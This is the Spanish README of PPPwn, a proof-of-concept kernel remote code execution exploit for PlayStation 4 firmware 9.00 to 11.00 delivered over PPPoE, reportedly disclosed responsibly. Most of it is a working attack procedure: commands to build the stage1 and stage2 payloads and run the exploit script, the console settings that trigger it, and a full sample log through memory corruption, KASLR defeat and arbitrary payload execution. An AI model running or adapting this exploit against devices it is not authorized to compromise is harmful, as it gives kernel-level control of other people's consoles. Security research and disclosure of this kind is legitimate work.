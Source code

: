 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn es un exploit de ejecución remota de código de kernel para PlayStation 4 hasta FW 11.00. Este es un exploit de concepto de prueba para [CVE-2006-4304](https://hackerone.com/reports/2177925) que fue reportado de manera responsable a PlayStation.

Las versiones admitidas son:
- FW 9.00
- FW 9.03 / 9.04
- FW 9.50 / 9.60
- FW 10.00 / 10.01
- FW 10.50 / 10.70 / 10.71
- FW 11.00
- pueden agregarse más (se aceptan solicitudes de extracción)

El exploit solo imprime `PPPwned` en tu PS4 como prueba de concepto. Para lanzar Mira u otros habilitadores de software casero similares, el payload `stage2.bin` necesita ser adaptado.

## Requisitos
- Una computadora con un puerto Ethernet
  - También funciona un adaptador USB
- Cable Ethernet
- Linux
  - Puedes usar VirtualBox para crear una máquina virtual de Linux con `Adaptador en puente` como adaptador de red para usar el puerto Ethernet en la VM.
- Python3 y gcc instalados

## Uso

En tu computadora, clona el repositorio:

```sh
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```

Cambia al directorio del repositorio clonado:

```sh
cd PPPwn
```

Instala los requisitos:

```sh
sudo pip install -r requirements.txt
```

Compila los payloads:

```sh
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```

Para otros firmware, por ejemplo FW 9.00, pasa `FW=900`.

Ejecuta el exploit (consulta `ifconfig` para la interfaz correcta):

```sh
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```

Para otros firmware, por ejemplo FW 9.00, pasa `--fw=900`.

En tu PS4:

- Ve a `Configuración` y luego a `Red`
- Selecciona `Configurar conexión a Internet` y elige `Usar cable LAN`
- Elije configuración `Personalizada` y elige `PPPoE` para `Configuración de direcciones IP`
- Ingresa cualquier cosa para `ID de usuario PPPoE` y `Contraseña PPPoE`
- Elige `Automático` para `Configuración de DNS` y `Configuración de MTU`
- Elige `No usar` para `Servidor proxy`
- Haz clic en `Probar conexión a Internet` para comunicarte con tu computadora

Si el exploit falla o la PS4 se bloquea, puedes omitir la configuración de internet y simplemente hacer clic en `Probar conexión a Internet`. Si el script `pppwn.py` está atascado esperando una solicitud/respueta, aborta y ejecútalo nuevamente en tu computadora, luego haz clic en `Probar conexión a Internet` en tu PS4.

Si el exploit funciona, deberías ver una salida similar a la siguiente, y deberías ver `No se puede conectar a la red.` seguido de `PPPwned` impreso en tu PS4.

### Ejecución de ejemplo

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!

